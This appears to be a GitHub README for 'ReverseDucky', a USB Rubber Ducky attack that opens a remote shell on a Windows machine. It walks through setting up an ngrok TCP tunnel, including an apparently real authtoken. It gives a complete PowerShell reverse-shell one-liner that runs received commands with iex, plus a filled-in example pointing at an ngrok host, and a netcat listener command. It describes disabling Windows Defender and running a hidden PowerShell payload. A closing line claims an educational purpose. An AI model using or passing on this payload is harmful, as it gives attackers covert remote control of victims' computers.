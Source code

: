 # ReverseDucky - Hahahaha quack quack!

Requirements
```
USB Rubber Ducky

Payload: https://raw.githubusercontent.com/mkdirlove/ReverseDucky/main/payload.txt

Payload Generator: https://payloadstudio.com/community/

Ngrok: https://bin.equinox.io/c/bNyj1mQVY4c/ngrok-v3-stable-windows-amd64.zip

Netcat: usually pre-installed in Linux distros like Kali Linux.
```

Download ngrok and extract it then run the following command to add your authtoken to the default ngrok.yml configuration file.
```
ngrok.exe config add-authtoken 2fYDJ4wD233CSpytL7JsObmutMF_51xya2iBV8Pfj8h1pJME8
```

Start tunneling...
```
ngrok.exe tcp 1337
```

Sample ngrok output...
```
K8s Gateway API support available now: https://ngrok.com/r/k8sgb

Session Status                online
Account                       mkdirlove (Plan: Free)
Version                       3.8.0
Region                        Asia Pacific (ap)
Latency                       31ms
Web Interface                 http://127.0.0.1:4040
Forwarding                    tcp://0.tcp.ap.ngrok.io:16038 -> localhost:1337

Connections                   ttl     opn     rt1     rt5     p50     p90
                              11      0       0.00    0.00    33.52   223.30 
```
After running ngrok you will notice the value of "Forwarding". Edit the payload below and replace NGROK_IP AND NGROK_PORT with the data from the value of "Forwarding".

```
$client = New-Object System.Net.Sockets.TCPClient("{NGROK_IP}",{NGROK_PORT});$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + "PS " + (pwd).Path + "> ";$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()
```

Example:
```
$client = New-Object System.Net.Sockets.TCPClient("0.tcp.ap.ngrok.io",16038);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + "PS " + (pwd).Path + "> ";$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()
```

Open new terminal and run netcat listener and wait for a reverse connection from port 1337
```
nc -lvnp 1337
```

After plugging the USB Rubber Ducky on the target machine it will automatically disable the Windows Defender and open a hidden Powershell that will download the payload and execute it in the background.

```
This information is for educational purposes only.

~MR.$UD0
```
